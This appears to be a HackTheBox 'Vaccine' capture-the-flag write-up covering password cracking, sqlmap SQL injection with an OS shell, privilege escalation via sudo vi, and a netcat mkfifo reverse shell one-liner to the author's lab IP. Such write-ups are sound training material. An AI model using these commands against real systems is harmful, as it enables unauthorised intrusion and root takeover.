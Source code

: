 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/nmap.jpg)
   
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
  
```zip2john backup.zip > zip.hash```  
```john zip.hash```  
  
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/index_cat.jpg)
  

After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/cars.jpg)
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see.  
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```  
  
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the 
```--os-shell``` option to see if I could get a shell as the database user.   
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/oshell.jpg)
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/revshell.jpg)
  
A quick shell upgrade with

```python3 -c 'import pty; pty.spawn("/bin/bash")'```  
  
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  

```grep -I -R “pass”*```  

And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/gtfobins.jpg)
  
I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/sudol.jpg)
  
```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work, but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened, I typed... 
  
```:set shell=/bin/sh```
```:shell```
  
This gave me root!
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/root.jpg)
  
All that was left was to enter my flags on HTB. 
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/pwnd.jpg)

Thanks for reading!
